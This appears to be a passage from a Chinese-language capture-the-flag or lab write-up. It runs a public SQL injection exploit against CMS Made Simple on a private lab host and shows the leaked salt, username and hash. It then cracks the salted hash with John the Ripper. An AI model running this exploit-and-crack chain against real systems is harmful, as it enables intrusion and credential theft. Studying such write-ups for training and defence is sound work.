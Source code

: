 > CMS Made Simple < 2.2.10 - SQL Injection                            | php/webapps/46635.py

```bash
cd /root
searchsploit -m 46635.py

python /root/46635.py -u http://192.168.70.44/Kashyapa --crack -w user.txt
```

##### 安装termcolor

如果缺少termcolor模块，在官网下载并kali中安装termcolor。

下载地址：https://github.com/termcolor/termcolor/releases

```bash
git clone https://github.com/termcolor/termcolor
cd termcolor

wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
python2 get-pip.py
pip2 install .
pip2 install termcolor
```

##### 结果

```bash
[+] Salt for password found: 65bd8602d290b16d

[+] Username found: atri

[+] Email found: abcd@gmail.com
[+] Password found: 49ba135760e8265758ae48ef5c7338c7
```



#### 爆破加盐的hash

> atri:49ba135760e8265758ae48ef5c7338c7$65bd8602d290b16d
>
> 用户名:密文$加盐

```bash
john 3.txt --wordlist=/usr/share/wordlists/rockyou.txt -rules=best64 -format=dynamic_4
```



```bash
┌──(root㉿kali)-[~/palu]
└─# john 3.txt --wordlist=/usr/share/wordlists/rockyou.txt -rules=best64 -format=dynamic_4
Using default input encoding: UTF-8
Loaded 1 password hash (dynamic_4 [md5($s.$p) (OSC) 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
anasuya          (atri)     
1g 0:00:00:01 DONE (2024-12-09 15:38) 0.6666g/s 685440p/s 685440c/s 685440C/s anyla06..anakbapak
Use the "--show --format=dynamic_4" options to display all of the cracked passwords reliably
Session completed.
```
